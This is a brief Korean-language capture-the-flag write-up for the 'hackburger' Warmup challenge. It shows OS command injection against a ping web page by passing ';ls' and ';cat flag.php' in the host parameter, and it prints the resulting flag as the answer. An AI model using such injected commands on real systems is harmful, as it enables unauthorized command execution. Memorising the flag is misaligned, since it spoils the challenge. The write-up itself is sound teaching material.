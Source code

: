 # [hackburger] Warmup - Writeup

호스트를 입력하면 ping을 전송해주는 웹페이지가 있다.

[http://burger.laboratorium.ee:8000/?host=safflower.kr](http://burger.laboratorium.ee:8000/?host=safflower.kr)
```
PING safflower.kr (223.26.138.3): 56 data bytes
64 bytes from 223.26.138.3: icmp_seq=0 ttl=48 time=323.314 ms
--- safflower.kr ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 323.314/323.314/323.314/0.000 ms
```

___

## OS Command Injection

`;`을 삽입해 `ping` 명령을 종료하고, 그 뒤에 다른 명령어를 입력하는 것으로 OS Command Injection이 가능하다.

[http://burger.laboratorium.ee:8000/?host=%3Bls](http://burger.laboratorium.ee:8000/?host=%3Bls)
```
flag.php
index.php
```

[http://burger.laboratorium.ee:8000/?host=%3Bcat%20flag.php](http://burger.laboratorium.ee:8000/?host=%3Bcat%20flag.php)
```
<?php

Congratulations!

The flag is f1b35744925a3f5946c542a1ee64267af8b93b06

?>
```

___

## Answer

flag: `f1b35744925a3f5946c542a1ee64267af8b93b06`